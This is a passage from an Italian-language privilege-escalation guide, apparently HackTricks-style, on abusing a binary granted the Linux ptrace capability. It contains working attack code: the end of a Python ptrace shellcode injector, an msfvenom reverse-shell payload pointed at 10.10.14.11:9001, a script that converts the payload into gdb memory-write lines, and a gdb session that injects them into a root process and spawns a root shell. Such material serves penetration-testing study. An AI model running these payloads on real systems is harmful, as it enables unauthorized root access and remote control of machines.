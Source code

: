 ```python
print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
**Esempio con binario (gdb)**

`gdb` con capacità `ptrace`:
```
/usr/bin/gdb = cap_sys_ptrace+ep
```
Crea uno shellcode con msfvenom da iniettare in memoria tramite gdb.
```python
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
buf += b"\x48\x97\x48\xb9\x02\x00\x23\x29\x0a\x0a\x0e\x0b"
buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
buf += b"\x0f\x05"

# Divisible by 8
payload = b"\x90" * (-len(buf) % 8) + buf

# Change endianess and print gdb lines to load the shellcode in RIP directly
for i in range(0, len(buf), 8):
chunk = payload[i:i+8][::-1]
chunks = "0x"
for byte in chunk:
chunks += f"{byte:02x}"

print(f"set {{long}}($rip+{i}) = {chunks}")
```
Esegui il debug di un processo root con gdb e copia-incolla le righe gdb generate in precedenza:
```bash
# Let's write the commands to a file
echo 'set {long}($rip+0) = 0x296a909090909090
set {long}($rip+8) = 0x5e016a5f026a9958
set {long}($rip+16) = 0x0002b9489748050f
set {long}($rip+24) = 0x48510b0e0a0a2923
set {long}($rip+32) = 0x582a6a5a106ae689
set {long}($rip+40) = 0xceff485e036a050f
set {long}($rip+48) = 0x6af675050f58216a
set {long}($rip+56) = 0x69622fbb4899583b
set {long}($rip+64) = 0x8948530068732f6e
set {long}($rip+72) = 0x050fe689485752e7
c' > commands.gdb
# In this case there was a sleep run by root
## NOTE that the process you abuse will die after the shellcode
/usr/bin/gdb -p $(pgrep sleep)
[...]
(gdb) source commands.gdb
Continuing.
process 207009 is executing new program: /usr/bin/dash
[...]
```